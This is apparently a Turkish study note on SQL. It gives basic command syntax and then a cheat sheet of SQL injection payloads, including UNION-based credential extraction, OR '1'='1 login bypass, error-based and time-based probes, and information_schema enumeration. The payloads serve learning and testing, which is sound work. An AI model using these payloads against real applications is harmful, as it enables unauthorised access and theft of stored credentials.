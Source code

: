 SQL bir sorgu dilidir ve bu dilde bilinmesi gereken temel komutlar aşağıdakilerdir. 

1. **SELECT**: Veritabanından veri çekmek için kullanılır.
    
    `SELECT kolon1, kolon2 FROM tablo_adi;`
    
2. **INSERT**: Veritabanına yeni bir kayıt eklemek için kullanılır.
    
    `INSERT INTO tablo_adi (kolon1, kolon2) VALUES (deger1, deger2);`
    
3. **UPDATE**: Var olan kayıtları güncellemek için kullanılır.
    
    `UPDATE tablo_adi SET kolon1 = yeni_deger WHERE koşul;`
    
4. **DELETE**: Belirli kayıtları silmek için kullanılır.
    
    `DELETE FROM tablo_adi WHERE koşul;`
    
5. **CREATE TABLE**: Yeni bir tablo oluşturmak için kullanılır.
    
    `CREATE TABLE tablo_adi (     kolon1 veri_tipi,     kolon2 veri_tipi );`
    
6. **ALTER TABLE**: Var olan bir tabloyu değiştirmek için kullanılır.
    
    `ALTER TABLE tablo_adi ADD kolon_adi veri_tipi;`
    
7. **DROP TABLE**: Var olan bir tabloyu silmek için kullanılır.
    
    `DROP TABLE tablo_adi;`
    
8. **WHERE**: Belirli koşullara göre veri çekmek veya işlem yapmak için kullanılır.
    
    `SELECT * FROM tablo_adi WHERE kolon = deger;`
    
9. **ORDER BY**: Sonuçları belirli bir sıralamaya göre sıralamak için kullanılır.
    
    `SELECT * FROM tablo_adi ORDER BY kolon ASC|DESC;`

---

SQLi için en çok kullanılan komutlar 


- **UNION SELECT**: Farklı sorguları birleştirerek başka bir tablodan veri çekmek için kullanılır.
    
    `' UNION SELECT kullanıcı_adı, parola FROM kullanıcılar --`
    
- **OR '1'='1**: Koşul ifadelerini manipüle ederek her zaman doğru bir sonuç döndürmek için kullanılır.
    
    `' OR '1'='1`
    
- **AND 1=1 --** veya **AND 1=2 --**: Koşulları test ederek sorgunun başarısını kontrol etmek için kullanılır.
    
    `' AND 1=1 -- ' AND 1=2 --`
    
- **SELECT DATABASE(), SELECT VERSION()**: Veritabanı ve sürüm bilgilerini almak için kullanılır.
    
    `' UNION SELECT DATABASE(), VERSION() --`
    
- **ORDER BY**: Kolon sayısını belirlemek için sıralama yapılır.
    
    `' ORDER BY 1 --`
    
- **LIMIT**, **OFFSET**: Çekilecek kayıt sayısını kontrol etmek için kullanılır.
    
    `' LIMIT 0,1 --`
    
- **SUBSTRING()**, **LEFT()**, **RIGHT()**: Veri sızıntısı sağlayan parça parça veri çekme yöntemleri.

	`' UNION SELECT SUBSTRING(parola,1,1) FROM kullanıcılar WHERE kullanıcı_adı='admin'--`
    
- **EXTRACTVALUE()**, **UPDATEXML()**: XML tabanlı SQL veri tabanlarında bilgi sızdırmak için kullanılır.
    
    `' AND EXTRACTVALUE(1, CONCAT(0x7e, DATABASE())) --`
    
- **SLEEP() veya BENCHMARK()**: Zaman tabanlı saldırılarda sorguların yanıt süresini ölçmek için kullanılır.
    
    `' OR SLEEP(5) --`
    
- **INFORMATION_SCHEMA** tablolarına erişim: Veritabanı yapısını keşfetmek için tablo ve kolon adlarını bulmak amacıyla kullanılır.
    
    `' UNION SELECT table_name FROM information_schema.tables --`

